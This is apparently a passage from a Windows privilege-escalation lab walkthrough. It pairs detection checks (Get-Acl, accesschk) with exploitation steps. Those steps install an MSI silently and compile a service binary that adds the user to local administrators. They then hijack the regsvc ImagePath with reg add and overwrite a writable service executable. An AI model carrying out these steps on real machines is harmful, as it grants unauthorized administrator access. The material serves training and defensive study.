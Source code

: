 Windows VM
1. Place ‘setup.msi’ in ‘C:\Temp’.
2. Open command prompt and type: msiexec /quiet /qn /i C:\Temp\setup.msi
3. It  is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Registry
### Detection
Windows VM
1. Open powershell prompt and type: Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl
2. Notice that the output suggests that user belong to “NT  AUTHORITY\INTERACTIVE” has “FullContol” permission over the registry  key.

### Exploitation
Windows VM
1. Copy ‘C:\Users\User\Desktop\Tools\Source\windows_service.c’ to the Kali VM.

Kali VM
1. Open windows_service.c in a text editor and replace the command used by the system() function to: cmd.exe /k net localgroup administrators user /add
2. Exit the text editor and compile the file by typing the following in the command prompt: x86_64-w64-mingw32-gcc windows_service.c -o x.exe (NOTE: if this is not installed, use 'sudo apt install gcc-mingw-w64')
3. Copy the generated file x.exe, to the Windows VM.

Windows VM
1. Place x.exe in ‘C:\Temp’.
2. Open command prompt at type: reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f
3. In the command prompt type: sc start regsvc
4.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---
## Exec Path
### Detection
Windows VM
1. Open command prompt and type: C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\File Permissions Service"
2. Notice that the “Everyone” user group has “FILE_ALL_ACCESS” permission on the filepermservice.exe file.

### Exploitation
Windows VM
1. Open command prompt and type: copy /y c:\Temp\x.exe "c:\Program Files\File Permissions Service\filepermservice.exe"
2. In command prompt type: sc start filepermsvc
3.  It is possible to confirm that the user was added to the local  administrators group by typing the following in the command prompt: net localgroup administrators

---